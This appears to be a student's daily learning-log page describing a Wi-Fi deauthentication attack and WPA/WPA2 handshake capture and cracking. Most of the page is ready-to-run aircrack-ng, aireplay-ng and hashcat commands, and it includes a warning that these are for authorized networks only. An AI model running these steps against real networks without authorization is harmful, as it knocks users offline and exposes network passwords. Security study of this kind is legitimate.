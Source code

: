 # 🔖 Day 8: Wi-Fi Deauthentication & WPA/WPA2 Password Cracking

**🗓️ Date:** June 26, 2025

---

### 🧠 Topics Covered:

* Capturing WPA/WPA2 handshakes
* Wi-Fi deauthentication attacks
* Password cracking using Aircrack-ng and Hashcat
* Monitor mode configuration
* Ethical considerations for wireless testing

---

### 💻 What I Did:

Today, I performed a **Wi-Fi deauthentication attack** followed by an attempt to crack the **WPA/WPA2 password**. The goal was to force users to reconnect so that a **handshake** could be captured, then use a **dictionary or brute-force** attack to crack the password using tools like `aircrack-ng` and `hashcat`.

---

### ⚖️ Prerequisites:

* A Linux system (Kali or Arch-based)
* Tools installed:

  * `aircrack-ng`, `airodump-ng`, `aireplay-ng`, `airmon-ng`
  * `hashcat` (optional)
* Wireless card supporting monitor mode and packet injection

---

### ✅ Steps Followed:

#### 1. **Set Up Wireless Card in Monitor Mode**

```bash
iwconfig              # Identify wireless interface (e.g., wlan0)
sudo airmon-ng start wlan0  # Enable monitor mode (renamed to wlan0mon)
sudo airmon-ng check kill   # Stop conflicting processes
```

#### 2. **Scan for Target Networks**

```bash
sudo airodump-ng wlan0mon  # Shows nearby networks
```

Note down the **BSSID** and **channel** of the target.

#### 3. **Capture WPA/WPA2 Handshake**

```bash
sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w capture wlan0mon
```

This saves the capture file (e.g., `capture-01.cap`).

#### 4. **Deauthenticate Clients**

```bash
sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon  # Broadcast deauth
sudo aireplay-ng --deauth 10 -a [BSSID] -c [Client MAC] wlan0mon  # Specific client
```

Look for "WPA handshake" at the top of the airodump-ng screen.

#### 5. **Crack the Password**

* **Dictionary Attack:**

```bash
sudo aircrack-ng -w wordlist.txt -b [BSSID] capture-01.cap
```

* **Brute-Force with Hashcat (Optional):**

```bash
aircrack-ng capture-01.cap -J capture  # Convert to hashcat format
hashcat -m 2500 capture.hccapx wordlist.txt
```

---

### 🧠 Key Learnings:

* **Deauthentication attacks** help capture WPA handshakes.
* **Monitor mode** is essential for wireless packet sniffing.
* Tools like **aircrack-ng** and **hashcat** are effective for password recovery.
* Password cracking success depends heavily on the **quality of the wordlist**.
* These methods are legal **only on authorized networks** and for educational or testing purposes.

---

### ⚠️ Important Notes:

* Always use these techniques **ethically and legally**.
* Tools like `rockyou.txt` or hybrid/custom wordlists can increase chances of success.

---

[⬅️ Back to Day 7](Day7.md) | [➡️ Go to Day 9](Day9.md)
